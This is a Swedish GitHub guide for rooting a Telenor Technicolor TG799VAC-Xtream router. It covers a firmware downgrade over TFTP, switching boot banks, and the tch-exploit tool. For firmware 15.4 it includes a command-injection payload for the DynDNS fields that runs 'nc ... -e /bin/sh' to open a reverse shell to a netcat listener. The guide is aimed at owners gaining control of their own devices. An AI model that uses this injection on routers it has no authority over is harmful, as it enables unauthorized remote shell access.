


# Root Technicolor TG799VAC-Xtream Telenor

Guide till Root Telenor TG799VAC Xtream > 18.1

Ska forsoka gora guiden sa latt som mojlig men lite forkunskaper kravs. 

## Varfor root?

Du vill inte ha nagra bakdorrar i din router.
Du vill kunna gora installningar som inte annars gar pga minimal "hemsida"

## Under konstruktion!

Skriver eftersom hur man gor.

## Start

**Detta ar for version > 18.1**

Om du ska kunna roota routern maste vi lagga in en aldre programvara. **17.1** 

## Setup TFTP

Du kan valja mellan t.ex:

Kor du https://github.com/BoLaMN/tch-exploit/releases behovs bara det programmet bade for TFTP och root.

sudo ./tch-exploit-linux --ip="192.168.0.2 (din dators ipadress)" --tftp='sokvag till RBI'

eller

sudo ./tch-exploit-linux --eth="en0"--tftp='sokvag vill RBI'

Forst ladda ner TFTP sa vi kan overfora programvaran.
Download https://bitbucket.org/phjounin/tftpd64/downloads/Tftpd64-4.64-setup.exe

Mjukvara: https://github.com/Vargaskri/Root-Technicolor-TG799VAC-Xtream-Telenor/blob/master/RBI/TN_SWE_TG799vacXtream_17.1.7937-1281014-20180313133921-Official.rbi.torrent

Lagg filen i rooten i TFTP mappen.

Kor TFTP som Administrator. andra installninar som bilderna visar. TFTP kan ibland vara brakig men bor ga bra. 

1. Ha routern avslagen.
1. Satt in en natverkskabel i port 1 pa routern och i dator.
1. Ta ett gem eller nat att halla in resetknappen med medans du slar igang routern. Hall in gemet tills ethernetlampan borjar blinka.
1. Nu borde TFTP fore over mjukvaran i routern om allt gar som de ska.
1. Lat routern fa starta upp, logga in och kolla om du har version **17.1**
    1. Om du har det fortsatt **har**
    1. Om **INTE** maste vi byta bootad bank.

## Byta bootad bank!

Sahar byter jag mellan bank_1 och 2.  
Starta ett tidtagarur pa datorn eller mobil.
1. Sla pa routern och tidtagaruret. 
2. Efter 30 sekunder tryck snabbt pa stromknappen (av, pa) Om du gjorde ratt kommer alla lampor pa routern lysa upp lite svagt sen startar routern om.
3. Starta om tidtagaruret och efter 30 sekunder sla av och routern fort igen. Gor samma sak en gang till darefter lat routern starta upp. Da bor du ha bootat **17.1**

## Sjalva root delen.

Nu nar du har 17.1 skall du anvanda:

https://github.com/BoLaMN/tch-exploit/releases

Natverkskabel ska in i WAN(roda porten) pa routern. Och routern maste nollstallas ifall den blivit anvand pa internet.

Under Linux:

./tch-exploit-linux

Folj instruktionerna och byt IP till det som star.
Efter en stund kommer det en massa text da far routern ett IP nummer. En stund senare kommer annu mera text och va da beredd pa att trycka
pa **WPS knappen** nar det star att du ska gora det. 
Sen ar det bara att flytta natverkskabeln till LAN pa routern och logga in med SSH med anvandare "root" losenord "root"

Under Windows:

Öppna en kommandotolk som Administrator.

Ga till mappen dar ni lagt filerna.

Kor tch-exploit-win.exe

## Version 15.4

Du behover installera netcat pa windows ifall du inte kor linux.

I en terminal skriv **nc -lvvp "port"**
 
Logga in pa routern ga till DynDNS:
Klistra in detta pa Domain,user,password sla pa DynDNS och spara.
**::::::'nc "Din dators IP" "porten du angav i terminalen" -e /bin/sh'**

I din termninal kommer du nu fa ett skal.
